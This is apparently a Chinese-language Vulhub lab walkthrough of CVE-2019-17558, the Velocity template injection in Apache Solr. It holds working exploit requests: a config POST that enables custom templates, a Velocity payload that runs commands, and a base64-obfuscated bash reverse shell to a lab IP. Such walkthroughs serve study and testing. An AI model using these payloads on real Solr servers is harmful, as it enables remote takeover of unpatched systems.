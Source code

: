 # Apache Solr Velocity 注入远程命令执行漏洞  CVE-2019-17558

## 漏洞描述

Apache Solr 是一个开源的搜索服务器。

在其 5.0.0 到 8.3.1版本中，用户可以注入自定义模板，通过Velocity模板语言执行任意命令。

具体漏洞原理和POC可以参考：

- https://nvd.nist.gov/vuln/detail/CVE-2019-17558
- https://issues.apache.org/jira/browse/SOLR-13971
- https://gist.github.com/s00py/a1ba36a3689fa13759ff910e179fc133
- https://github.com/jas502n/solr_rce

## 环境搭建

Vulhub执行如下命令启动一个Apache Solr 8.2.0服务器：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8983`即可查看到一个无需权限的Apache Solr服务。

## 漏洞复现

默认情况下`params.resource.loader.enabled`配置未打开，无法使用自定义模板。我们先通过如下API获取所有的核心：

```
http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json
```

Vulhub里唯一的核心是`demo`：

![image-20220301131203531](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011312586.png)

通过如下请求开启`params.resource.loader.enabled`，其中API路径包含刚才获取的core名称：

```
POST /solr/demo/config HTTP/1.1
Host: your-ip:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

![image-20220301131312106](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011313182.png)

之后，注入Velocity模板即可执行任意命令：

```
http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![image-20220301131516198](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011315268.png)

成功执行`id`命令：

![image-20220301131436306](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011314342.png)

构造反弹shell的POC（前后双引号也可以，编码是`%22`）：

```
'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}'

# URL编码后
%27bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%27
```

请求包如下：

```
GET /solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: your-vps-ip:8983
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

成功接收反弹shell：

![image-20220301131830036](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011318131.png)